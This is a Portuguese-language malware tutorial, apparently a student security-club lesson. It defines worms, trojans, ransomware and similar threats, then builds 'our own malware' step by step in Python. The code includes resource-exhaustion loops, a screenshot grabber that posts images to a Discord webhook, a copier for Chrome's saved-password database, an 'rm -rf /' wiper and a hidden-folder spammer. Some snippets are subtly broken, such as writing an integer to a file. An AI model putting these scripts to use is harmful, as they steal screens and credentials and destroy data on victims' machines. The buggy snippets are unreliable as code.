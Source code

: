 # Introdução a Vírus e Malwares

## O que é um vírus de computador?

"Um vírus de computador é um programa malicioso que se propaga infectando outros programas e arquivos. Ele pode se espalhar por meio de anexos de e-mail, downloads de arquivos, pen drives e outros dispositivos de armazenamento. Os vírus de computador podem causar danos ao sistema operacional, roubar informações pessoais e até mesmo danificar o hardware do computador."  
(Fonte: [Kaspersky](https://www.kaspersky.com.br/resource-center/threats/computer-viruses))

"Vírus é um arquivo que, quando executado, prejudica o seu computador de alguma forma."  
(Fonte: Arial 15, Marabá)

## Tipos de vírus

### Worms

Worms são programas maliciosos que se propagam automaticamente pela rede, explorando vulnerabilidades em sistemas operacionais e softwares. Eles podem se espalhar rapidamente e causar danos significativos a computadores e redes.

### Cavalos de Troia (Trojans)

Cavalos de Troia são programas maliciosos que se disfarçam como software legítimo para enganar os usuários. Eles podem roubar informações pessoais, instalar outros malwares e abrir portas para invasores.

### Ransomware

Ransomware é um tipo de malware que criptografa arquivos e exige um resgate para liberar o acesso aos dados. Ele pode se espalhar por e-mails, downloads maliciosos e vulnerabilidades de software.

### Spyware

Spyware é um malware que monitora as atividades do usuário sem o seu consentimento. Ele pode coletar informações pessoais, como senhas, histórico de navegação e dados bancários.

### Adware

Adware é um malware que exibe anúncios indesejados no computador do usuário. Ele pode causar lentidão no sistema, redirecionar para sites maliciosos e coletar informações de navegação.

### Botnets

Botnets são redes de computadores infectados controlados por um invasor. Elas podem ser usadas para enviar spam, realizar ataques de negação de serviço (DDoS) e roubar informações.

### RAT (Remote Access Trojan - Cavalo de Troia de Acesso Remoto)

RAT é um tipo de malware que permite ao invasor controlar remotamente o computador da vítima. Ele pode capturar imagens da tela, gravar áudio, roubar arquivos e executar comandos no sistema.

Esse malware também é conhecido como Remote Administration Tools (Ferramenta de Administração Remota).

### Keylogger

Keylogger é um tipo de malware que registra as teclas digitadas pelo usuário, capturando senhas, mensagens e outras informações confidenciais. Ele pode ser usado para roubo de identidade e espionagem.

## Como se proteger de vírus e malwares?

**Não seja ingênuo!** Sempre mantenha seus sistemas e softwares atualizados, evite clicar em links suspeitos, não baixe arquivos de fontes desconhecidas e utilize um bom software antivírus.

## Vamos criar o nosso malware!

Agora que entendemos um pouco sobre vírus e malwares, vamos criar nosso próprio malware simples.

**DISCLAIMER:** Essa aula é apenas para fins educacionais e não deve ser usada para prejudicar outras pessoas. O uso de malware é ilegal e pode resultar em graves consequências legais. ;)

### Como pode ser um simples malware?

Sabemos que malwares são programas maliciosos que podem causar danos ao sistema, roubar informações ou até danificar o hardware. Vamos começar com algo simples: um programa que apenas trava o computador, criando um loop infinito que consome toda a CPU.


```python
while True:
    pass
```

Esse código cria um loop infinito que não faz nada além de consumir recursos do computador. Executá-lo pode travar o sistema, exigindo um reinício para recuperá-lo. Se rodado em uma IDE como o VSCode, apenas a IDE pode travar, sem afetar o sistema inteiro.

Podemos melhorar um pouco esse código.

```python
i = 0
while True:
    i += 1
```

Agora o loop infinito incrementa uma variável, consumindo mais recursos e potencialmente causando lentidão no sistema.
Vamos adicionar um print para aumentar ainda mais o consumo de recursos.

```python
i = 0
while True:
    i += 1
    print(i)
```

Agora, o loop imprime o valor de `i` a cada iteração. Isso pode travar o sistema mais rapidamente.
Mas podemos fazer algo ainda mais interessante, manipulando arquivos.

```python
i = 0
while True:
    i += 1
    with open(f'arquivo_{i}.txt', 'w') as f:
        f.write('InsperSec')
```

Esse código cria arquivos infinitamente, mas ainda não é muito eficiente. Vamos intensificar a operação.

```python
i = 0
while True:
    i += 1
    with open(f'arquivo_{i}.txt', 'w') as f:
        f.write(i**i)
```

Agora, os arquivos crescem exponencialmente, consumindo muito espaço em disco, o que pode travar o sistema. Mas ainda podemos melhorar.

```python
import os

i = 0
while True:
    i += 1
    with open(f'arquivo_{i}.txt', 'w') as f:
        f.write(i**i)
    os.system(f'rm arquivo_{i}.txt')
```

Agora, o malware cria arquivos exponenciais e os remove logo em seguida, causando um grande consumo de recursos e danificando o sistema de arquivos.

Quer roubar informações pessoais? Vamos capturar a tela do usuário.

```python
import pyautogui
import requests

discord_webhook = 'https://discord.com/api/webhooks/1234567890/ABCDEFGHIJKLMN'

def send_screenshot():
    screenshot = pyautogui.screenshot()
    screenshot.save('screenshot.png')
    files = {'file': open('screenshot.png', 'rb')}
    requests.post(discord_webhook, files=files)

send_screenshot()
```

Agora, temos um malware que envia capturas de tela para um webhook do Discord.

Podemos ir mais longe e roubar senhas salvas no navegador.

```python
import os
import shutil

def steal_passwords():
    path = os.path.expanduser('~') + '/AppData/Local/Google/Chrome/User Data/Default/Login Data'
    shutil.copy(path, 'senhas.db')

steal_passwords()

```

Esse malware copia o banco de dados de senhas do Google Chrome para um arquivo local.

Finalmente, um malware perigoso que apaga o sistema operacional.

```python
import os

def delete_system():
    os.system('rm -rf /')

delete_system()
```

Esse código exclui todos os arquivos do sistema, causando uma perda irreparável de dados.

Para fechar, um vírus divertido que cria pastas infinitamente e as esconde no sistema.

```python
import os

def create_folders():
    i = 0
    while True:
        i += 1
        os.mkdir(f'pasta_{i}')
        os.system(f'attrib +s +h pasta_{i}')

create_folders()
```

Esse script cria pastas infinitas e as esconde com atributos de sistema, deixando o computador cheio de diretórios ocultos.